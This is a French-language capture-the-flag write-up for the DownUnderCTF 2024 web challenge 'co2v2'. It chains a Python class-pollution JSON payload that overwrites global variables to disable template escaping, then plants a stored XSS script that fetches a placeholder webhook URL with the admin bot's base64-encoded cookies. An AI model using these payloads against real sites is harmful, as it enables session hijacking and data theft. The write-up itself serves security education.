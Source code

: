 ```yaml
---
title: "co2v2"
excerpt: "This is the challenge co2v2 from downunder 2024"
coverImage: "/assets/blog/hello-world/cover.jpg"
date: "2024-07-08"
author:
  name: dolipr4necrypt0
  picture: "/assets/blog/authors/dolipr4necrypt0.png"
ogImage:
  url: "/assets/blog/hello-world/cover.jpg"
---
```


code : [https://github.com/DownUnderCTF/Challenges_2024_Public/tree/main/web/co2v2/src](https://github.com/DownUnderCTF/Challenges_2024_Public/tree/main/web/co2v2/src)

Ce challenge est la suite de co2 dans laquelle on a trouvé une vulnérabilité de type prototype pollution : [https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution). Cette vulnérabilité nous permettait de réécrire n'importe quelle variable globale à travers la route /save_feedback avec comme payload ```{"__class__":{"__init__":{"__globals__":{"GLOBAL_VAR":"VALUE"}}}}```. Ce payload nous permet de remonter la hiérarchie python jusqu'à tomber sur l'objet __globals__ et ainsi accéder aux dictionnaires des variables globales.

Dans ce challenge, la première chose que l'on remarque c'est la présence d'un bot xss avec le flag dans les cookies. Lorsqu'on accède à la route /api/v1/report, on déclenche le bot xss qui visit la page d'accueil. On sait donc que l'on doit introduire un script js dans la page d'accueil. Ce qui tombe bien vu que les blog posts sont affichés sur l'accueil lorsque les posts sont publics.

On commence par introduire des simples balises html dans un post pour voir le résultat, malheureusement le html n'est pas interprété. En lisant le code, on voit que notre input est passé directement dans la base de donnée sans modification. On remarque aussi une variable globale intéressante TEMPLATES_ESCAPE_ALL = True, qui va faire le lien avec le premier challenge. Cette variable globale est passé au moteur de Template qui va s'occuper de l'escaping.

On peut passer TEMPLATES_ESCAPE_ALL à False grâce à la vulnérabilité du premier challenge. Cependant, nos balises html ne sont toujours pas interprétés. Le problème est que le moteur de template est chargé une unique fois au démarrage et que la modification de TEMPLATES_ESCAPE_ALL n'est pas suffisante. Il nous faut recharger le moteur de Template avec la modification de notre variable. Heureusement, la route /admin/update-accepted-templates nous permet de faire cette action.

Cette fois ci, les balises html sont interprétés. Pour finir, ils nous suffit d'introduire le script suivant dans un blog post public
```<script>fetch("http://<webhook>/"+btoa(document.cookie))</script>``` et de trigger la visite du bot xss pour récupérer les cookies et le flag.
